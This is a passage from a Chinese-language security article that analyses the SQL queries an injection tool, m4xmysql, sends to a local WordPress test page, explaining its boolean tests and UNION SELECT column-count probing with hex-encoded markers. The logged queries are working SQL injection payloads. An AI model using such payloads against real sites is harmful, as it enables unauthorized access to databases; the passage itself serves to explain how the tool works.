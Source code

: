 建立好数据库和表之后访问（由于我采用的是自己的wp博客，所有有大量的测试数据如果没有数据建议安装个wordpress方便以后的测试）： ￼![enter image description here](http://drops.javaweb.org/uploads/images/e174fe88bb7307c46b528fa40d5007e3e8a439d0.jpg)

SQL注入测试：

￼![enter image description here](http://drops.javaweb.org/uploads/images/316d68b731901ec469dead07e9b13e968dc3102a.jpg)

让我们来看下m4xmysql究竟在SQL注入点提交了那些数据,点击start我们的PHP程序会自动在同目录下生成一个getsql.txt打开后发现我们截获到如下SQL：

￼![enter image description here](http://drops.javaweb.org/uploads/images/81907f74d7370b6bce742d422203757839b98a66.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/30c4952904af47fd4f5683a96475a4b7c4b65b85.jpg)

看起来不算多，因为我没有自动换行，以上是在获取数据库相关信息。

让我来带着大家翻译这些SQL都做了些什么：

```
/*检测该URL是否存在SQL注入*/
SELECT * from wps_posts where ID = 739 and 1=0      
SELECT * from wps_posts where ID = 739 and 1=1      

/*这条sql开始查询的字段数，请注意是查询的字段数而不是表的字段数！*/

SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b68345d,0,0x5b2f68345d)--

SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b68345d,0,0x5b2f68345d),concat(0x5b68345d,1,0x5b2f68345d)--       

SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b68345d,0,0x5b2f68345d),concat(0x5b68345d,1,0x5b2f68345d),concat(0x5b68345d,2,0x5b2f68345d)--     
/*........................省去其中的无数次字段长度匹配尝试................................*/

/*匹配出来SELECT * from wps_posts where ID = 739一共查询了10个字段*/
/*那么他是怎么判断出字段数10就是查询的长度的呢？答案很简单提交以下SQL占位10个页面显示正常而前面提交的都错误所以得到的数量自然就是10了。获取请求的http status或许应该就行了*/

SELECT * from wps_posts where ID = 739 and 1=0 union select concat(0x5b68345d,0,0x5b2f68345d),concat(0x5b68345d,1,0x5b2f68345d),concat(0x5b68345d,2,0x5b2f68345d),concat(0x5b68345d,3,0x5b2f68345d),concat(0x5b68345d,4,0x5b2f68345d),concat(0x5b68345d,5,0x5b2f68345d),concat(0x5b68345d,6,0x5b2f68345d),concat(0x5b68345d,7,0x5b2f68345d),concat(0x5b68345d,8,0x5b2f68345d),concat(0x5b68345d,9,0x5b2f68345d),concat(0x5b68345d,10,0x5b2f68345d),concat(0x5b68345d,11,0x5b2f68345d),concat(0x5b68345d,12,0x5b2f68345d),concat(0x5b68345d,13,0x5b2f68345d),concat(0x5b68345d,14,0x5b2f68345d),concat(0x5b68345d,15,0x5b2f68345d),concat(0x5b68345d,16,0x5b2f68345d),concat(0x5b68345d,17,0x5b2f68345d),concat(0x5b68345d,18,0x5b2f68345d),concat(0x5b68345d,19,0x5b2f68345d),concat(0x5b68345d,20,0x5b2f68345d),concat(0x5b68345d,21,0x5b2f68345d),concat(0x5b68345d,22,0x5b2f68345d)--

```

以上的SQL完成了注入点（`http://localhost/Test/1.php?id=739`执行的`SELECT * from wps_posts where ID = 739`）的类型、是否存在和字段数量的检测 里面有许多的0x5b2f68345d转换过来其实就是占位符，为了让工具扒下源代码后能够在页面类找到具有特殊意义的字符并进行截取：

![enter image description here](http://drops.javaweb.org/uploads/images/4870eb1a43c2474511ef9675eab24d61a9f69a60.jpg)￼ 如果你足够聪明或仔细会发现他这样写有点浪费资源，因为他的order 是从1一直递增到争取的长度的假如字段特别长（一般情况下还是很少出现的）可能要执行几十个甚至是更多的HTTP请求，如果这里使用二分法或许可以很好的解决吧。
